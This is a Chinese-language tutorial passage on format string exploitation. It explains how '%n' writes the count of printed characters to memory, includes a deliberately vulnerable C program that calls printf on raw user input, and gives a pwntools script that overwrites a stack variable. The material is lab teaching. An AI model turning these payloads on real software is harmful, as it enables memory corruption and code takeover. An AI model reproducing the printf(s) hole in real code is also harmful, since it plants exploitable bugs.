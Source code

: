 > 上面一节讲的是 泄露内存，是读取内存，这一节将介绍怎么写内存，即覆盖内存

- `%n`: 不输出字符，把已经成功输出的字符个数写入对应的整型指针参数所指的变量
- 覆盖某个地址的变量，基本上是构造类似如下的payload:

```c
...[overwrite addr]....%[overwrite offset]$n      // e.g. p32(c_addr) + b'%012d%6$n'
```

- ... 表示填充内容，overwrite addr 表示要覆盖的地址，overwrite offset 表示要覆盖的地址存储的位置为输出函数的格式化字符串的第几个参数

1. 确定覆盖地址
2. 确定相对偏移
3. 进行覆盖

```c
#include <stdio.h> // 示例程序 overwrite.c // gcc -fno-stack-protector -m32 -o -no-pie overwrite overwrite.c
int a = 123, b = 456; // 后续在覆盖任意地址内存中，想要覆盖的变量
int main() {
    int c = 789; // 0x315 // 后续在覆盖栈内存中，想要覆盖的变量
    char s[100];
    printf("%p\n", &c); // 程序这里已经输出了c的地址
    scanf("%s", s);
    printf(s); // 漏洞利用点
    if (c == 16) { // 覆盖栈内存 一节中想要命中的判断
        puts("modified c.");
    } else if (a == 2) { // 覆盖任意地址内存 覆盖为小数字 一节中想要命中的判断
        puts("modified a for a small number.");
    } else if (b == 0x12345678) { // 覆盖任意地址内存 覆盖为大数字 一节中想要命中的判断
        puts("modified b for a big number!");
    }
    return 0;
}
```

##### 覆盖栈内存

- `p32(c_addr)`为4B(4 char)，是c的地址，为凑齐16B (16 char)，需要用`%012d`来再输出多12个字符，然后用`%6$n`将输出的字符个数，即16，写到变量c去。`%6$n`的 6 表示format string相对于栈第一个参数来说是第6个参数(即`printf`的第7个参数)，可以通过gdb调试分析漏洞利用点`printf`的栈帧得到

```python
from pwn import *  # 将 overwrite.c 中的变量 c 覆盖为16
def forc():
    sh = process('./overwrite')
    c_addr = int(sh.recvuntil('\n', drop=True), 16)
    print(hex(c_addr))  # 0xffd582bc # 注意这个地址并非每次运行都一样
    payload = p32(c_addr) + b'%012d' + b'%6$n'  # b'\x8c\x01\x84\xff%012d%6$n'
    print("payload: ", payload) # [ addr of c, %012d%6$n ]
    # gdb.attach(sh)
    sh.sendline(payload)
    print(sh.recv())
    sh.interactive()
context.log_level = "DEBUG"
forc()
```
